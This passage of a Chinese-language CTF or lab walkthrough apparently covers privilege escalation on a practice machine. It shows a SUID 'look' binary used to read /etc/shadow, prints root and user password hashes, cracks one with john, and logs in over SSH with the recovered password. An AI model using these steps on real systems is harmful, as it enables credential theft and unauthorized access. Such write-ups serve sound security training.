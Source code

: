      * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    19 updates can be applied immediately.
    To see these additional updates run: apt list --upgradable
    
    The list of available updates is more than a week old.
    To check for new updates run: sudo apt update
    $ 
    
    ```
    
    登陆成功
    

## 提权 - jaye用户

1. 寻找敏感文件
    - 在家目录下存在`Files`文件夹权限是`root`的，里边存在个可执行文件`look` ，是`root`权限的，并且我们拥有执行权限，这样我们就可以使用`look`命令来读取`shadow`文件的内容了
        
        ```python
        ---s--s--x  1 root root 14728 Sep 17  2021 look
        ```
        
2. 使用`look`命令读取`shadow`文件，读取`root`用户以及`randy`用户
    
    ```python
    ./look -f "root" /etc/shadow
    root:$6$fHvHhNo5DWsYxgt0$.3upyGTbu9RjpoCkHfW.1F9mq5dxjwcqeZl0KnwEr0vXXzi7Tld2lAeYeIio/9BFPjUCyaBeLgVH1yK.5OR57.:18888:0:99999:7:::
    ./look -f "randy" /etc/shadow
    randy:$6$bQ8rY/73PoUA4lFX$i/aKxdkuh5hF8D78k50BZ4eInDWklwQgmmpakv/gsuzTodngjB340R1wXQ8qWhY2cyMwi.61HJ36qXGvFHJGY/:18888:0:99999:7:::
    ```
    
    保存为`pass`文件放到`john`进行爆破，破解了五个多小时，仅破解了`randy`用户的密码
    
    ```python
    07051986randy (randy)
    ```
    
3. 使用密码登录`ssh`
    
    ```python
    ssh randy@192.168.56.6
    randy@192.168.56.6's password: 
    Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.11.0-34-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    19 updates can be applied immediately.
    To see these additional updates run: apt list --upgradable
    
    The list of available updates is more than a week old.
    To check for new updates run: sudo apt update
    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
    ```
    